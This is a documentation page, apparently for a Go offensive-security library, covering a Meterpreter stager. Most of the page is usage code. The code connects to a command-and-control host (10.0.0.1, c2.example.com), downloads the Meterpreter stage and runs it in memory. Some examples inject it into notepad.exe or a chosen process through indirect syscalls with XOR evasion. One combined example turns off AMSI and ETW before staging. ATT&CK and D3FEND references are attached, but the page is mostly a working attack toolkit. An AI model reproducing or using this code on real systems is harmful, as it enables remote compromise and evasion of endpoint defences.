


# Meterpreter Stager

[<- Back to C2 Overview](README.md)

**MITRE ATT&CK:** [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
**D3FEND:** [D3-OCA - Outbound Connection Analysis](https://d3fend.mitre.org/technique/d3f:OutboundConnectionAnalysis/)

---

## For Beginners

Metasploit's Meterpreter is a powerful post-exploitation toolkit, but it needs to be loaded onto the target somehow. The full Meterpreter payload is large (hundreds of KB), so it is split into two parts:

**A tiny delivery truck (stager) fetches the full toolkit (stage) from HQ.** The stager is small enough to fit in a shellcode payload or a Go binary. It connects to the Metasploit handler, downloads the full Meterpreter DLL (the "stage"), and executes it in memory -- nothing is written to disk.

---

## How It Works

### Staging Process



### Transport Selection



---

## Usage

### TCP Stager

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
)

stager := meterpreter.NewStager(&meterpreter.Config{
    Transport: meterpreter.TransportTCP,
    Host:      "10.0.0.1",
    Port:      "4444",
    Timeout:   30 * time.Second,
})

ctx := context.Background()
if err := stager.Stage(ctx); err != nil {
    // handle error
}
```

### HTTPS Stager with Custom User-Agent

```go
stager := meterpreter.NewStager(&meterpreter.Config{
    Transport:   meterpreter.TransportHTTPS,
    Host:        "10.0.0.1",
    Port:        "443",
    Timeout:     30 * time.Second,
    TLSInsecure: true,
    UserAgent:   "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120.0.0.0",
})

if err := stager.Stage(context.Background()); err != nil {
    // handle error
}
```

### With Syscall Caller (Windows)

```go
import (
    wsyscall "github.com/oioio-space/maldev/win/syscall"
    "github.com/oioio-space/maldev/c2/meterpreter"
)

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
defer caller.Close()

stager := meterpreter.NewStager(&meterpreter.Config{
    Transport: meterpreter.TransportTCP,
    Host:      "10.0.0.1",
    Port:      "4444",
    Timeout:   30 * time.Second,
    Caller:    caller, // VirtualAlloc + CreateThread via indirect syscalls
})

stager.Stage(context.Background())
```

### With Custom Injector (Windows)

Set `Config.Injector` to override stage execution with any `inject.Injector`. This gives access to the full inject package: 10+ injection methods, Builder pattern, syscall routing (Direct/Indirect), decorator chain (XOR, CPU delay), and automatic fallback.

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
    "github.com/oioio-space/maldev/inject"
)

// EarlyBird APC into notepad.exe with indirect syscalls + XOR evasion
inj, _ := inject.Build().
    Method(inject.MethodEarlyBirdAPC).
    ProcessPath(`C:\Windows\System32\notepad.exe`).
    IndirectSyscalls().
    WithFallback().
    Use(inject.WithXOR).
    Use(inject.WithCPUDelay).
    Create()

stager := meterpreter.NewStager(&meterpreter.Config{
    Transport: meterpreter.TransportTCP,
    Host:      "10.0.0.1",
    Port:      "4444",
    Timeout:   30 * time.Second,
    Injector:  inj,
})

stager.Stage(context.Background())
```

### Remote Injection into Existing Process (Windows)

```go
// Inject Meterpreter stage into PID 1234 via CreateRemoteThread
inj, _ := inject.Build().
    Method(inject.MethodCreateRemoteThread).
    TargetPID(1234).
    IndirectSyscalls().
    WithFallback().
    Create()

stager := meterpreter.NewStager(&meterpreter.Config{
    Transport: meterpreter.TransportHTTPS,
    Host:      "10.0.0.1",
    Port:      "443",
    Timeout:   30 * time.Second,
    TLSInsecure: true,
    Injector:  inj,
})

stager.Stage(context.Background())
```

> **Note:** On Linux, `Config.Injector` is not supported because the Meterpreter wrapper protocol requires the socket fd to read the ELF payload. An error is returned if Injector is set.

### Get Payload Name for Metasploit

```go
// Returns the correct payload name for the current platform
name := meterpreter.PayloadName(meterpreter.TransportTCP)
// "windows/x64/meterpreter/reverse_tcp" on Windows amd64
// "linux/x64/meterpreter/reverse_tcp" on Linux amd64
```

---

## Combined Example: Stager with Evasion Pipeline

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewTartarus(), wsyscall.NewHalosGate()),
    )
    defer caller.Close()

    // Disable AMSI + ETW before staging
    evasion.Apply(caller, amsi.Technique(), etw.Technique())

    stager := meterpreter.NewStager(&meterpreter.Config{
        Transport:    meterpreter.TransportHTTPS,
        Host:         "c2.example.com",
        Port:         "443",
        Timeout:      30 * time.Second,
        TLSInsecure:  true,
        Caller:       caller,
        MaxStageSize: 10 * 1024 * 1024, // 10 MB
    })

    ctx, cancel := context.WithTimeout(context.Background(), 60*time.Second)
    defer cancel()

    if err := stager.Stage(ctx); err != nil {
        panic(err)
    }
    // Meterpreter session is now active
}
```

---

## Advantages & Limitations

### Advantages

- **Multi-transport**: TCP, HTTP, and HTTPS with a single config switch
- **Cross-platform**: Windows (VirtualAlloc + CreateThread) and Linux (ELF loader wrapper)
- **Custom injection**: Set `Injector` to use any of the 10+ inject package methods (CRT, APC, EarlyBird, Fiber, etc.) with Builder pattern, decorators, and syscall routing
- **Caller integration**: Default path routes memory allocation and thread creation through `*wsyscall.Caller`
- **Size limit**: Configurable `MaxStageSize` prevents OOM from malformed handlers
- **Random User-Agent**: Falls back to `useragent.Load()` for random browser strings

### Limitations

- **Default path uses RW→RX memory**: Detectable by memory scanners (use Injector with evasion decorators for stealth)
- **No stageless support**: Only staged payloads (stager + stage), not embedded Meterpreter
- **Single attempt**: No built-in retry logic -- wrap with `c2/shell` for reconnection
- **Linux Injector**: Not supported due to wrapper protocol requiring socket access
- **HTTP handler compatibility**: Requires Metasploit handler to serve the stage at `/`

---

## Compared to Other Implementations

| Feature | maldev | Metasploit (msfvenom) | Sliver | Havoc |
|---------|--------|-----------------------|--------|-------|
| Language | Go | C/Ruby | Go | C/Python |
| TCP staging | Yes | Yes | N/A | Yes |
| HTTP/HTTPS staging | Yes | Yes | N/A | Yes |
| Caller bypass | Yes | No | No | No |
| Cross-platform | Yes | Yes | Yes | Windows |
| Stageless | No | Yes | Yes (implants) | Yes |

---

## API Reference

### Stager

```go
func NewStager(cfg *Config) *Stager
func (s *Stager) Stage(ctx context.Context) error
```

### Config

```go
type Config struct {
    Transport    Transport        // "tcp", "http", "https"
    Host         string
    Port         string
    Timeout      time.Duration
    TLSInsecure  bool
    Caller       any              // *wsyscall.Caller or nil (default path only)
    MaxStageSize int64            // default 10 MB
    UserAgent    string           // default random or "Mozilla/5.0"
    Injector     inject.Injector  // custom injector (nil = default self-injection)
}
```

- **Injector** overrides stage execution. Build via `inject.Build()`, `inject.NewInjector()`, or `inject.NewWindowsInjector()`. Supports all injection methods, syscall routing, decorators, and fallback. Mutually exclusive with `Caller` (use `inject.WindowsConfig.SyscallMethod` instead when setting Injector). Not supported on Linux.

### Transport Constants

```go
const (
    TransportTCP   Transport = "tcp"
    TransportHTTP  Transport = "http"
    TransportHTTPS Transport = "https"
)
```

### Helpers

```go
// PayloadName returns the Metasploit payload string for the current platform.
func PayloadName(transport Transport) string
// e.g., "windows/x64/meterpreter/reverse_tcp"
```
